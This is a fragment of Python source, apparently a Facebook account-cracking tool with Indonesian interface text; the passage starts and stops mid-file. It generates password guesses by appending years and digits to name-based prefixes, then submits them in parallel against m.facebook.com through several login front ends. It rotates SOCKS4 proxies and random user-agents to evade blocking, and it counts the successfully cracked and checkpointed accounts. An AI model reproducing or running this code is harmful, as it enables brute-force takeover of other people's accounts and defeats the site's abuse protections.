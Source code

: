 					pwv.append(frs+'2002')
					pwv.append(frs+'2003')
					pwv.append(frs+'1999')
					pwv.append(frs+'1996')
					pwv.append(frs+'1998')
					pwv.append(frs+'1997')
					pwv.append(frs+'1995')
					pwv.append(frs+'2000')
					pwv.append(frs+'12')
					pwv.append(frs+'1212')
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(crackfree,idf,pwv)
			elif 'touch' in method:
				pool.submit(cracktouch,idf,pwv)
			elif 'mbasic' in method:
				pool.submit(crackmbasic,idf,pwv)
			else:
				pool.submit(crackmbasic,idf,pwv)
	print('')
	cetak(nel('\t[cyan]>>[green] Crack Selesai Ngab, Jangan Lupa Bersyukur[cyan] <<[white] '))
	print(f'[{b}GOOD¢{x}]{h} OK : {h}%s '%(ok))
	print(f'{x}[{b}CP¢{x}]{k} CP : {k}%s{x} '%(cp))
	print('')
	print('>> CRACK DUBARA AKAITAWA ( Y/t ) ? ')
	woi = input('>> CHOSE : ')
	if woi in ['y','Y']:
		back()
	else:
		print(f'\t{x}>>{k} Good Bye{x} << ')
		time.sleep(2)
		exit()
#--------------------[ METODE-B-API ]-----------------#
def crack(idf,pwv):
	global loop,ok,cp
	bo = random.choice([m,k,h,b,u,x])
	sys.stdout.write(f"\râ˜ ï¸ {P}[{b}{loop}{P}/{u}{len(id)}{P}]â€”{P}[{H}{ok}{P}]â€”{P}[{k}{cp}{x}]â€”[{bo}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			ses.headers.update({'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})